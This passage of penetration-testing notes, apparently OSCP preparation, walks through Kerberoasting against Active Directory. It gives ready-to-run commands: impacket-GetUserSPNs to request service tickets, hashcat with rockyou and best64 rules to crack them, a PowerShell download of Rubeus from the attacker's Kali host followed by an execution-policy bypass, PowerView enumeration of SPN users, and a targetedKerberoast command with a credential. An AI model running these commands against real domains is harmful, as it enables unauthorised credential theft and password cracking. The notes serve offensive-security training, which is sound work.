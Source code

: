 As before, there are two ways to perform this attack:
1) From kali
2) From windows

### From kali

Using _impacket-GetUserSPNs_ to perform the attack and _hashcat_ to get the password:

```bash
sudo impacket-GetUserSPNs -request -dc-ip $IP_TARGET $DOMAIN_NAME/$USER_NAME -outputfile hashes.kerberoast

#Esempio
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete -outputfile hashes.pete

hashcat --help | grep -i "Kerberos"

sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### From Windows

Using _Rubeus_ on windows to perform a _Kerberoast_ attack:

```bash
cp /opt/Ghostpack-CompiledBinaries/Rubeus.exe .

powershell iwr -uri http://$IP_KALI:9999/windows/Ghostpack-CompiledBinaries/Rubeus.exe -Outfile Rubeus.exe

powershell -ep bypass

.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Once you have the hash via _Rubeus_ you need to use _hashcat_ to get the password.

Alternatively, you could also use [Get-SPN.ps1](https://github.com/compwiz32/PowerShell/blob/master/Get-SPN.ps1) (see PG machine [here](https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d)).

**Kerberoastable Users**:

```bash
Get-NetUser -Domain msp.local | Where-Object {$_.servicePrincipalName} | select name, samaccountname, serviceprincipalname
```

**TargetedKerberoasting**:

When you have control of an object that has `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` on a target.

```bash
python3 /home/kali/OSCP/util/windows/targetedKerberoast/targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny' --dc-ip 192.168.208.40
```
